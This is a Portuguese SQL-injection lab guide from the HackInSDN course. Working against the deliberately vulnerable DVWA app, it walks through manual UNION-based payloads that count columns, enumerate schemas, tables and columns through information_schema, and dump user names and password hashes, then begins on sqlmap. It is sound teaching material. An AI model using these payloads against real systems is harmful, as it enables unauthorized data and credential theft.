# Roteiro de Laboratório - Exploração de vulnerabilidade de injeção de SQL

Neste laboratório vamos realizar a exploração de vulnerabilidade de injeção de SQL. Utilizaremos como alvo o [DVWA](https://github.com/digininja/DVWA), uma aplicação feita propositalmente vulnerável para estudos. E para a exploração será o [Secflood](https://github.com/hackinsdn/secflood), ferramenta que faz parte da suíte [HackInSDN](https://hackinsdn.ufba.br/) que contém diversas ferramentas de geração de tráfego benigno e de ataque, incluindo o [SQLMap](https://sqlmap.org/), que é a ferramenta que faremos maior uso para a exploração. Além disso também teremos atividade com a configuração do [ModSecurity](https://modsecurity.org/) com as regras do projeto [CRS](https://coreruleset.org/). Você pode ver a topologia dos ativos envolvidos nesse laboratório na imagem abaixo:


## Atividade 1 - Teste de conectividade e configuração do laboratório

Ao completar a criação do laboratório você terá disponível a topologia semelhante à imagem acima. Nessa primeira etapa vamos validar se os nós conseguem se comunicar. Para isso, faremos um simples teste de ping e de acesso ao serviço HTTP do DVWA a partir da máquina do Secflood.

Para acessar o console do Secflood clique no serviço "Mininet-Sec", como ilustrado na imagem abaixo:



Uma nova aba irá abrir exibindo a topologia do laboratório via Mininet-Sec. Basta fazer um duplo clique no ícone do Secflood que uma nova aba será aberta com um terminal para executar comados no Secflood:



Com acesso ao terminal, veja o endereço IP do Secflood digitando o comando:

```
ip a
```

Você pode notar que o endereço é `192.168.0.10`, como na imagem abaixo:



O DVWA está configurado com o IP `192.168.0.20`. Faça um teste de conexão entre os dois serviços executando o comando `ping` abaixo:

```
ping -c 4 192.168.0.20
```

Também é possível fazer uma requisição HTTP para validar o correto acesso à aplicação DVWA a partir do Secflood. Para isso, execute o comando abaixo:

```
curl -i 192.168.0.20
```

Você perceberá que recebe resposta HTTP devidamente, como na imagem abaixo. Então tudo está nos conformes.



Para você já se familiarizar com o Secflood, vamos também realizar o teste de conexão através da interface web da ferramenta. Clique no serviço "https-secflood", disponível no Dashboard HackInSDN, como mostra a figure abaixo:



Deve ser exibido um aviso sobre risco de segurança. Isso acontece por conta de como está a configuração dos certificado criptográficos desse serviço. Mas não se preocupe, pode clicar para avançar e em seguida aceitar os riscos.



Ao fazer isso uma tela de autenticação é exibida. Faça login informando o seguinte:

- Hostname: `127.0.0.1`
- User: `root`
- Password: `hackinsdn`



Em seguida clique em "Tools List" e selecione a ferramenta `ping`, como a imagem abaixo:



Preencha o campo de "Target" com o endereço IP do alvo, `192.168.0.20`, e clique para executar:



Depois de alguns instantes, visualizando a parte de baixo da tela, você deve ter o retorno do comando executado com sucesso:


Agora vamos acessar a aplicação DVWA, realizar uma pequena configuração e estará pronta para nosso uso no laboratório. Então acesse o serviço do DVWA no Dashboard HackInSDN, como mostra a imagem abaixo:



Na página de login que se abriu você deve se autenticar com as seguintes informações:

- Username: `admin`
- Password: `password`



Você será redirecionado a uma página para fazer a configuração do banco de dados. Basta clicar no botão "Create / Reset Database":



Após esse passo você será redirecionado novamente para a tela de login. Pode acessar com as mesmas credenciais informadas anteriormente. A partir desse ponto a aplicação já está pronta para ser utilizada.

Vamos apenas fazer um pequeno ajuste no nível de segurança para início das nossas atividades. Para isso siga os seguintes passos, conforme demonstra a imagem:

1. Clique em "DVWA Security"
2. Selecione "Low"
3. Clique em "Submit"



Com isso você configurou o nível de segurança da aplicação para baixo. Isto implica em a aplicação não contar com nenhum mecanismo de segurança para as vulnerabilidades que iremos tratar no início das atividades desse roteiro.

## Atividade 2 - Exploração manual de injeção de SQL do tipo UNION

### 2.1 Introdução

SQL é uma linguagem estruturada para consultas em banco de dados. A sigla significa _Structured Query Language_ (Linguagem de Consulta Estruturada, em português). Utilizando dessa linguagem para se comunicar com bancos de dados é possível realizar diversas operações, dentre elas consultar, alterar, inserir e remover os dados.

Abaixo está um pequeno exemplo de uso:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '5';
```

Com esse exemplo o que está sendo feito é uma consulta no banco de dados, na tabela `users`, especificando a entrada que tenha o campo `user_id` igual a 5, e para essa consulta devem ser retornados apenas os campos `first_name` e `last_name`.

No DVWA você consegue utilizar uma funcionalidade que implementa esse tipo de consulta. Estando logado na aplicação, clique em "SQL Injection". No formulário no centro da tela é possível especificar um identificador de usuário para realizar a consulta com filtro, como mostrado na imagem abaixo:



Clicando no botão "View Source", localizado na parte inferior da tela, você poderá ler o código responsável pela funcionalidade em questão. Através dessa página você consegue ver que o comando utilizado está como na imagem abaixo:



Primeiro é criada uma string de consulta concatenando o identificador de usuário a partir do dado que foi enviado pelo usuário na requisição HTTP. Depois esse comando é realmente executado pelo método `->query()`, e após isso o resultado é exibido na tela.

Essa é uma forma perigosa de realizar tal operação. Isso porquê o valor da variável `$id` é controlado pelo usuário que está enviando a requisição. Assim, um usuário malicioso pode enviar dados com o intuito de modificar a consulta a ser feita. Pense, por exemplo, se o usuário enviar `' OR 1=1 #`, o que acontece?

Nesse caso, a consulta resultante será:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' OR 1=1 #';
```

Perceba que a consulta modificada dessa maneira agora será retornado todas as entradas que tem na tabela `users`. Experimente enviar isso (`' OR 1=1 #`) no DVWA e veja o resultado:



Isso acontece pois a consulta foi modificada contendo agora a seguinte condição: me retorne os dados da tabela `users` em que `user_id` seja igual a `''` (string vazia) **OU** se `1=1`. Como um é sempre igual a um ([tautologia](https://pt.wikipedia.org/wiki/Tautologia)), então todas as entradas da tabela serão retornados.

Veja bem, isso quer dizer que conseguimos modificar a consulta que é executada e, dessa forma, podemos extrair qualquer informação que tiver no banco de dados! Então, essa é a primeira parte do nosso laboratório: extrair informações do banco de dados explorando uma simples falha de injeção de SQL manualmente.

### 2.2 Extração de informações da consulta

Nosso objetivo com o ataque é extrair informações importantes do banco de dados. Iremos fazer isso através da modificação da consulta executada, como vimos anteriormente. Mas, para isso, precisamos saber as tabelas e suas colunas existentes no banco de dados. Só assim para sabermos o que é interessante para extrair, certo?

Mas ainda antes de tentar extrair os nomes das tabelas e colunas existentes no banco de dados precisamos descobrir como está estruturada a consulta que estamos modificando.

> [!IMPORTANT]
> No exato cenário que estamos lidando nesse laboratório isso não se faz necessário já que o próprio sistema nos dá essa informação (como vimos anteriormente o código), mas em cenários reais e que o código não é disponibilizado você precisará fazer isso.

O que precisamos de informações relevantes sobre a consulta é:

1. Quantas colunas são retornadas na consulta;
2. Onde cada coluna é exibida na tela.

Com essas informações em mãos poderemos montar consultas e extrair os resultados que desejarmos.

A quantidade de colunas podemos descobrir ao tentar ordenar os resultados da consulta pelo número da coluna. Para isso utilizamos a diretiva `ORDER BY` do SQL. Se funcionar quer dizer que existe a coluna especificada na consulta, se não funcionar quer dizer que não existe.

Como primeiro teste vamos inserir `' OR 1=1 ORDER BY 1 #` e ver o resultado. Essa consulta deve funcionar sem problemas, já que tem que ter pelo menos uma coluna na consulta.



Vamos aumentar nosso teste, agora fazer a consulta ser ordenada pela segunda coluna. Para isso, insira `' OR 1=1 ORDER BY 2 #` e veja o resultado. Novamente deve tudo ter funcionado certo, modificando apenas a ordem da lista exibida.



Continuamos nosso processo, agora com o número 3 para tentar ordenar pela terceira coluna. Insira `' OR 1=1 ORDER BY 3 #` e veja o resultado que é retornado:

```

Fatal error: Uncaught mysqli_sql_exception: Unknown column '3' in 'order clause' in /var/www/html/vulnerabilities/sqli/source/low.php:11 Stack trace: #0 /var/www/html/vulnerabilities/sqli/source/low.php(11): mysqli_query(Object(mysqli), 'SELECT first_na...') #1 /var/www/html/vulnerabilities/sqli/index.php(34): require_once('/var/www/html/v...') #2 {main} thrown in /var/www/html/vulnerabilities/sqli/source/low.php on line 11
```

Repare que agora houve um problema na execução. A mensagem de erro é clara sobre o que aconteceu: `Unknown column '3' in 'order clause'` (tradução literal: `Coluna 3 desconhecida na 'cláusila order'`). Isso quer dizer que não há coluna 3 na consulta. Como o teste anterior, com 2 colunas, deu certo, isso quer dizer que a consulta especifica duas colunas.

Agora que sabemos que são duas colunas retornadas na consulta, vamos identificar onde as informações de cada uma dessas colunas é exibida na página. Uma forma de fazer isso é montarmos uma consulta que tenha apenas resultados que nós conhecemos, assim fica simples identificar na página onde cada campo está.

A forma de fazer isso é especificar uma condição que não retorne nenhuma informação (por exemplo `1=2`) e unir o resultado dessa consulta com uma outra que tenha informações que conhecemos. Para unir os resultados podemos utilizar a cláusula `UNION` do SQL. Assim, nosso ataque pode ser feito com a entrada `' OR 1=2 UNION SELECT 1,2 #`. Envie isso para o sistema e veja o resultado.



Prontinho, conseguimos descobrir que a consulta retorna 2 colunas e sabemos onde cada uma é exibida na tela: a primeira coluna é o retorno de "First name" e a segunda coluna o retorno de "Surname".

### 2.3 Extração de informações de tabelas e colunas

Agora que já sabemos a estrutura da consulta que é executada e onde os dados dessa consulta são exibidos na página, podemos modificar a consulta para extrair dados realmente. Mas ainda antes de extrair os dados de alguma tabela relevante, precisamos conhecer quais tabelas e colunas existem no banco. Feito isso, aí sim, seremos capazes de extrair os dados pertinentes.

Normalmente os bancos de dados tem tabelas que armazenam metadados sobre o que há armazenado no banco. No caso do MariaDB, que é o banco de dados utilizado pelo DVWA, essa tabela é chamada `information_schema`. Por meio dela conseguimos extrair as informações necessárias para entender as tabelas e colunas existentes.

Primeiro vamos buscar as bases de dados que tem definidas e o usuário de acesso ao banco tem permissão. Para esse passo consultamos a tabela `schemata` da base `information_schema`. O campo relevante que queremos é o `schema_name`, que é onde está o nome da base.

Então envie o seguinte no DVWA:

```sql
-1' UNION SELECT schema_name,2 FROM information_schema.schemata #
```

Com essa string o retorno é o resultado de duas consultas (veja o `UNION`), mas a primeira não retorna nenhum registro (repare na condicional `-1`), então, de fato, o que está sendo retornado é o resultado da segunda parte da consulta. A segunda parte busca pelo nome das bases de dados existentes.



Repare que tem a base de dados chamada `dvwa`, essa parece ser interessante para nosso propósito de extrair dados. Sabendo o nome da base, agora precisamos saber quais tabelas contém nela. Também há essa informação na base `information_schema`, na tabela `tables`. Podemos filtrar a consulta para mostrar as tabelas apenas dessa base.

Envie o seguinte para o DVWA:

```sql
-1' UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema='dvwa'#
```



Veja as tabelas existentes: `guestbook` e `users`. Por agora é interessante extrair dados da tabela `users`, certo? Então precisamos saber como ela é definida, quais colunas há nessa tabela. Voltamos a recorrer à `information_schema` para obter essa informação. Dessa vez vamos buscar na tabela `columns` e podemos filtrar para saber as colunas apenas da tabela desejada.

Envie o seguinte para o DVWA:

```sql
-1' UNION SELECT column_name,2 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' #
```



Há diversas colunas interessantes para extrairmos dados, né? Por exemplo `user` e `password`. Vamos extrair os dados dela então!

### 2.4 Extração de dados

> [!TIP]
> Quer uma ideia legal? Que tal antes de seguir o passo a passo dessa parte do laboratório você tentar extrair os dados você mesmo? Você já sabe como modificar a consulta e sabe que o que queremos são os registros da tabela `users` da base de dados `dvwa`. Tire uns minutinhos para tentar fazer isso como um desafio. :)

Agora que já sabemos como a consulta está estruturada, como é o banco de dados e temos noção de informações que podem ser pertinentes para serem extraídas, vamos finalmente realizar a extração.

Recapitulação: queremos extrair os dados da base de dados `dvwa`, tabela `users` e colunas `user` e `password`. Se fosse uma consulta direta no banco de dados seria assim:

```sql
SELECT user,password from users
```

Basta organizarmos um pouco para ter o mesmo resultado mas via a falha de injeção que estamos explorando.

Envie o comando abaixo no DVWA e configura o resultado:

```sql
-1' UNION SELECT user,password FROM users #
```



Você pode ver que todos os usuários do banco de dados foram exibidos na página. Então conseguimos extrair os dados do banco de dados.

> [!IMPORTANT]
> Na imagem acima foi mostrado apenas parte do resultado. Envie no campo abaixo todo todos os usuários e senhas extraídos pelo ataque.

<textarea name="resposta_dump_manual" rows="6" cols="80" placeholder="Escreva sua resposta aqui..."> </textarea>

> [!NOTE]
> Por esse ataque conseguimos extrair todas informações do banco de dados. Como prova de conceito apenas extraímos o login de usuário e a hash da senha, mas poderíamos ter extraído tudo que há no banco de dados.

## Atividade 3 - Exploração automatizada de injeção de SQL do tipo UNION

Na atividade anterior fizemos a exploração da vulnerabilidade de injeção de SQL de forma manual. Isso é importante para entendermos os passos envolvidos em uma exploração como esta. Ao mesmo passo também é interessante utilizarmos ferramentas para agilizar o processo, é justamente o que faremos nesta atividade.

[SQLmap](https://sqlmap.org/) é uma ferramenta de [código aberto](https://github.com/sqlmapproject/sqlmap) que auxilia bastante nos testes e exploração de vulnerabilidades de injeção de SQL. Essa ferramenta já faz parte do Secflood, então executaremos os ataques com SQLmap a partir do Secflood.

Acesse o painel do Secflood a partir do Dashboard HackInSDN. No Secflood clique em "Tools List" e em seguida em "sqlmap", como indica a imagem abaixo:



Na página do SQLmap no Secflood clique em "Options", assim você consegue ver diversas opções que são disponibilizadas para utilizar ao executar a ferramenta.

